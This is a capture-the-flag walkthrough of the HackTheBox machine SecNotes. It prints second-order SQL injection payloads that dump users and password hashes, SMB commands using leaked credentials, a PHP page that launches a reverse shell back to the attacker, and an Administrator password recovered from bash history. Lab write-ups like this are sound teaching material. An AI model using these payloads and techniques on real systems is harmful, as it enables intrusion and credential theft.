







# Writeup / Walkthrough for Hackthebox / SecNotes
## Enumeration and User Flag
We will start eith our normal enumeration, looking for open services:
```bash
# -sC: run default nmap (NSE) scripts
# -sV: run a service scan
# -Pn: Do not ping the box before scanning it
nmap -sC -sV -Pn 10.10.10.97
```

```
root@kali:~/ctf/hackthebox/secnotes# nmap -sC -sV -Pn 10.10.10.97
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-02 10:42 EDT
Nmap scan report for 10.10.10.97
Host is up (0.064s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h18m48s, deviation: 4h02m30s, median: -1m12s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2018-09-02T07:41:33-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-09-02 10:41:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.04 seconds
```

We got some good information from the scan.  Of the default ports that nmap scans, port 80 and 445 are open.  Port 445 might give us an avenue to upload or download files from the box.  We can see that the machine is likely Windows 10, which means Windows Defender is on by default.  That might impact us if we need to use any exploits or upload any tools.  The box is also running IIS which may be useful information.  We also have a computer name (```SECNOTES```) and a workgroup name ```HTB```.

Let's see what the login page looks like:


When we visit the IP, we are redirected to login.php which tells us the server is running PHP.  There is nothing obvious in the source code for the page.  I wanted to start by trying to understand how the application works before trying anything more invasive.  I created an account and logged in:


I spent some time poking around the various pages, but nothing stood out in terms of a vulnerability.  I was looking for things like local file inclusions or information leakage.  I did find a cross site scripting vulnerability, but that does not help too much in this instance because there are not live users going to this site.  We did a user name from the top banner (```tyler```).  Time to get a little more involved.  We will try SQL injection on the login page.

OWASP has a good page<sup>[1]</sup> that has some injection strings we can try.  I do not like to throw automated tools (like sqlmap) at the application immediately because it is not always clear what they are doing in the background.  Also, they can be very noisy.  For now, we will try some manual SQL injection to get a feel for the application.  If we find something where the automated application can help us, we will bring it in.

I tried a number of strings like ```user' or '1' = '1``` for the user name and password fields, but the application seemed to reject them with messages like "No account found with that username."  This could be an example of a second order SQL injection.  A second order SQL injection is where an unsafe string is stored by the application and used somewhere else.  In the example we are working with now, the username displayed when you logged in may be pulled from the database.  Suppose we are able to create a username that is an unsafe string (such as ```user' OR '1' = '1```).  When the application goes to pull the notes for a user, it might use a SQL query that looks like this:
```sql
SELECT title, note FROM notes WHERE username='<our username>';
```
If our user name was ```user' or '1' = '1```, that query would become:
```sql
SELECT title, note FROM notes WHERE username='user' or '1' = '1';
```

This would select all of the titles and notes in the database because the WHERE clause would evaluate to TRUE.

Let's try to register a user name similar to the one in our example and see what happens when we login with it:


Looks that worked and gave us access to some notes.  Along with a sticky buns recipe I may have to try sometime, we get credentials to what looks like an smb share:


```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

I did a little more SQL injection after this to see what else I could get out of the site.  From trial and error, I found that we have 50 characters for the user name, so we have to fit our query inside of that.  Here is a rundown of some of the information I found by creating a number of different usernames:
### Number of columns in the table
Using the following query, I was able to find how many columns are in the table.  The ```UNION``` keyword joins the results of two queries.  The two queries must have the same number of columns.  If we select numbers, we can tell how many columns the table because if the numbers we choose are not the same as the number of columns in the table, we will get an error.
```sql
# The hash symbol (#) at the end comments out anything in the application's query that comes after our username
a' UNION SELECT 1,2,3,4#
```

This tells us we have 4 columns.  The second argument in our ```UNION``` statement will be rendered as a title of the note on the page, and the third argument will be rendered as the note itself.

### The datanase name and database username
I took a guess that this is a MySQL database.  If it is, the ```database()``` function will tell us the name of the database and the variable ```current_user``` will tell us the current user.  We can incorporate those into the ```UNION``` statement we had before.
```sql
a' UNION SELECT 1,database(),current_user,4#
```


The name of the database is ```secnotes``` and the database username is ```secnotes```.

### Usernames and Password (Hashes) from the Database
I took another guess that the username and password fields are named username and password respectively.  If they are, we may be able to get credentials from this which could enable us later.
```
' UNION SELECT 1,username,password,4 FROM users#
```


The hashes we get out are salted bcrypt hashes<sup>[2]</sup>.  We can work on them with John the Ripper or Hashcat, but that might not be worth the effort.  We can let that go in the background while we work on other things.

Let's work with the credentials we found.  We know that SMB is open, and the creds we found look like they are for an SMB share.

Let's use smbclient to take a look:
```bash
# //10.10.10.97/new-site is the name of the share (from the file we found before).  We found that the name of the box is secnotes and its domain is htb, so secnotes.htb = 10.10.10.97.
# secnotes.htb/tyler is the name of the user
# In Windows, we would be using backslashes, but those are escape characters in Linux, so smbclient lets us use forward slashes
smbclient //10.10.10.97/new-site -U secnotes.htb/tyler
```


There is not a lot here.  I tried to surf to the HTML page (```iisstart.htm```) and the image (```iisstart.png```), but they 404ed on port 80.  That means there may be another port running HTTP / IIS that our default nmap scan did not pick up on.  Usually, people put alternate HTTP ports in the 8000s (8000, 8001, 8008, 8080, 8800).  We can try scanning those ports to see what we can find:

```bash
nmap -sS -p 8000-9000 10.10.10.97
```


We found port 8808.  This might not be an HTTP server, so let's check by visiting it in a browser:



That looks like the standard iisstart.htm page.  We can test our theory by uploading a text file through the share we have access to and see if we can retrieve the file:
```bash
echo "test" > test.txt
smbclient //10.10.10.97/new-site -U secnotes.htb/tyler
put test.txt
```


Let's try to get it by surfing to http://10.10.10.97:8808/test.txt


We have write access to this site, which means we should be able to upload a file that creates a reverse shell for us.  Because Windows Defender has known about netcat for over 10 years<sup>[3]</sup>, I would rather use something else.  Of course, we could change the signature of our copy of netcat then upload that.  I would like to expand the number of tools in my toolbox, and I stumbled across one I would like to try called Simple Reverse Shell<sup>[4]</sup>.  We can even compile it in Linux.

```bash
git clone https://github.com/infoskirmish/Window-Tools/
cd "Window-Tools/Simple Reverse Shell"

# These commands are in compile.sh, but I wanted to explain them a bit
# If you do not care about the explanation, you can run ./compile.sh shell

# We will be using the mingw compiler for Linux to make a Windows binary
# Most of the options are the same as they are for gcc
# -c: just compile the code, do not link it (we will link it later)
# -O3: optimize for code size and execution time - 3 is the highest
# -march=i686: Compile a 32-bit binary.  This box is most likely 64-bit, but 32-bit is the safest
i686-w64-mingw32-gcc -c -O3 -march=i686 shell.c

# The command above produces an object file called shell.o

# Take shell.o and link it to the winsock2 library (-lws2_32) - -Wl says pass the option to the linker
i686-w64-mingw32-gcc shell.o -o shell.exe -O3 -march=i686 -Wl,-lws2_32
```

We will also need a quick page to run our executable.  We can use ASP since we are running on IIS or PHP since we know PHP is installed.  I am going to use the following PHP code to execute our shell:
```php
<?php
    system("shell.exe <your IP> <port you are listening on>");
?>
```

I called the exe and php ```iishelper.exe``` and ```iishelper.php``` respectively to be a tiny bit stealthy.  We can upload them with smbclient:


I am listening on port 8002, so I need to set up my netcat listener:
```bash
nc -vvlp 8002
```

If we visit ```http://10.10.10.97:8808/iishelper.php```, we should get a connection in netcat:


After a bit of enumeration, we can find the user flag on tyler's desktop:


## Root Flag
The first step is to do some basic enumeration in the user's directory.  On his Desktop we also find ```bash.lnk```:


It looks like the Windows Subsystem for Linux may be installed.  When we look for ```bash.exe``` in ```C:\Windows\System32\bash.exe```, we find it is not there.  However, if we look in ```C:\Windows\sysnative```, we can find it:


```C:\Windows\sysnative``` is used to access the 64-bit System32 folder from a 32-bit application.  We can run ```bash``` from there:


Even though we are root in ```bash```, we still cannot access anything more than the user we are running as (tyler).  Maybe we can do some more enumeration and find something.  Let's start with root's home directory:


Looks like there may be something in ```.bash_history```.  Let's take a look:


It looks like tyler was trying to read files as Administrator.  This line in particular is critical:
```bash
# When using smbclient, you can specify a user and password by using -U and separating the username and password with a %
# In this case, the user name is administrator and the password is u6!4ZwgwOM#^OBf#Nwnh
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

We can use this directly from our machine or use smbclient inside of the bash instance.  I decided to run it directly from my machine instead of the target because running ```smbclient``` inside of the bash shell was very unstable for me.

If you run smbclient from your local machine, you will have to modify the command slightly to point at secnotes.htb:
```bash
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97/c$
```

After a little enumeration in the Administrator's user directory, we find the root flag:


# References

[1]: https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005) "Testing for SQL Injection (OTG-INPVAL-005)"
[2]: https://en.wikipedia.org/wiki/Bcrypt "Bcrypt - Wikipedia"
[3]: https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=HackTool:Win32/NetCat "HackTool:Win32/Netcat"
[4]: https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell "Simple Reverse Shell"
[5]: https://docs.microsoft.com/en-us/windows/wsl/user-support "Linux User Account and Permissions | Microsoft Docs"

  * [<sup>1</sup> Testing for SQL Injection (OTG-INPVAL-005)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005))
  * [<sup>2</sup> Bcrypt - Wikipedia](https://en.wikipedia.org/wiki/Bcrypt)
  * [<sup>3</sup> HackTool:Win32/Netcat](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=HackTool:Win32/NetCat)
  * [<sup>4</sup> Simple Reverse Shell](https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell)
  * [<sup>5</sup> Linux User Account and Permissions | Microsoft Docs](https://docs.microsoft.com/en-us/windows/wsl/user-support)

